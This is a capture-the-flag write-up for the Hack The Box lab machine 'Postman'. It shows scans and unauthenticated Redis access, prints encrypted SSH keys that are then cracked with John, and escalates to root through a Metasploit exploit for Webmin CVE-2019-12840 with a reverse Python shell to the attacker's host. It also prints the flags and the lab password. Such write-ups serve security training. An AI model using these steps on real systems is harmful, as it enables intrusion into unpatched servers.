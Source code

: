 # Postman

## SYN Scan
```
nmap -sS -sV -O -p- -v -Pn -T4 -oA nmap/full_syn 10.10.10.160

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Webmin
![webmin](./screenshots/webmin.png)

![webmin_login](./screenshots/webmin_login.png)

## Remote Redis Does Not Require Authentication
```
$ nc 10.10.10.160 6379
INFO
$2724
...
# Server
redis_version:4.0.9
...
```

## SSH Login via Authorized Key (Redis)
https://m0053sec.wordpress.com/2020/02/13/redis-remote-code-execution-rce/

```
redis@Postman:~$ id
uid=107(redis) gid=114(redis) groups=114(redis)
```

## Encrypted RSA Private Key #1 (Matt)
```
redis@Postman:/dev/shm$ ls -l /opt/id_rsa.bak
-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak
```

```
redis@Postman:/dev/shm$ cat /opt/id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
...
-----END RSA PRIVATE KEY-----
```

### Cracked The RSA Password Using JohnRipper
```
john matt_id_rsa.john --wordlist=/usr/share/wordlists/rockyou
...
computer2008     (ssh/matt_id_rsa) 
```

## Privilege Escalatio #1
Used the password of `SSH RSA private key` to login as `Matt` user.
```
redis@Postman:/opt$ su Matt
```

```
Matt@Postman:/opt$ id
uid=1000(Matt) gid=1000(Matt) groups=1000(Matt)
```

## The User Flag
```
Matt@Postman:~$ ls -l user.txt 
-rw-rw---- 1 Matt Matt 33 Apr  4 16:47 user.txt
```

```
Matt@Postman:~$ cat user.txt 
02505f44b4fbd37b91014930f2339824
```

## Encrypted RSA Private Key #2 (Matt)
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,4FC44D79F1BC0D141DB22CCB08108C44

O9bdxmDVMF8uvq6lHIN4Irz1aNQc56PBhYlnBu28FvDwG/CoXj47xuinWbrrpq5s
zWWtGo4wDI+Be4Z8Gb1DznUtpdjVdR34PjNyqh8EL9t5hUMSTvMIQFhy/byjGgKH
oDVh+MA7jMHHur8EoMiqeZq1hD1OXwA505Fr2riqNMtDqGNb82sIqTCeA8wlVQEE
FHeP0BfJn4gS2i4cPF2GBjpKUsh4s5urAPYfNinkfAv3Ugqnr9+8xWLJqDaTc9cG
HJ5VtOnt6gVeytkihRTyTDIl2kBMVvjWpzSus2ybjIHH+7FKpISme6VlH+ESL7d1
aWkH7rJjoi5tWO5MO0H1d5eXuyJFOpoqsW8jgegztKIYUYB6CIaTYa8Sc+Wr7XYn
...
```

### Cracked The RSA Password Using JohnRapper
```
john matt_2_id_rsa.john --fork=12 --wordlist=/usr/share/wordlists/rockyou.txt
...
computer2008     (matt_2_id_rsa)
...
```

## SimpleHTTPServer
```
redis@Postman:/var/www$ ls -l SimpleHTTPPutServer.py 
-rw-rw-r-- 1 Matt Matt 482 Aug 25  2019 SimpleHTTPPutServer.py
```

```python
import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))


if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```

## Webmin Setup Output
```
redis@Postman:/$ ls -l webmin-setup.out 
-rw-r--r-- 1 root root 2086 Aug 25  2019 webmin-setup.out
```

```
Web server port (default 10000): Login name (default admin): Login password: ***********************************************************************
```

## Webmin Panel Login
Used the `password of RSA keys` and the username `Matt` to log in to Webmin panel.

```
Matt: computer2008
```

![webmin_panel](./screenshots/webmin_panel.png)

## Privileged RCE via Package Updates (Webmin)
In `Webmin` through `1.910`, any user authorized to the "Package Updates" module can execute arbitrary commands with `root privileges` via the data parameter to update.cgi.

https://nvd.nist.gov/vuln/detail/CVE-2019-12840

https://www.cvedetails.com/cve/CVE-2019-12840/?q=CVE-2019-12840

https://www.exploit-db.com/exploits/46984

```
msf6 exploit(linux/http/webmin_packageup_rce) > set password computer2008
password => computer2008
msf6 exploit(linux/http/webmin_packageup_rce) > set username Matt
username => Matt
msf6 exploit(linux/http/webmin_packageup_rce) > set payload cmd/unix/reverse_python 
payload => cmd/unix/reverse_python
msf6 exploit(linux/http/webmin_packageup_rce) > set lhost tun0
lhost => 10.10.14.33
msf6 exploit(linux/http/webmin_packageup_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_packageup_rce) > set rhosts postman
rhosts => postman
```

```
msf6 exploit(linux/http/webmin_packageup_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.33:4444 
[+] Session cookie: 27e85b836d61b08515e38ad8c16fa1f9
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.33:4444 -> 10.10.10.160:47404) at 2021-04-05 17:02:18 +0300
```

```
msf6 exploit(linux/http/webmin_packageup_rce) > sessions -i 1
[*] Starting interaction with 1...

id
uid=0(root) gid=0(root) groups=0(root)
```

## The Root Flag
```
ls -l /root/
total 8
drwxrwxr-x 6 root root 4096 Oct  2  2019 redis-5.0.0
-rw-r--r-- 1 root root   33 Apr  4 16:47 root.txt
```

```
cat /root/root.txt
d8d9bff3c8d306e00c163fd192338562
```
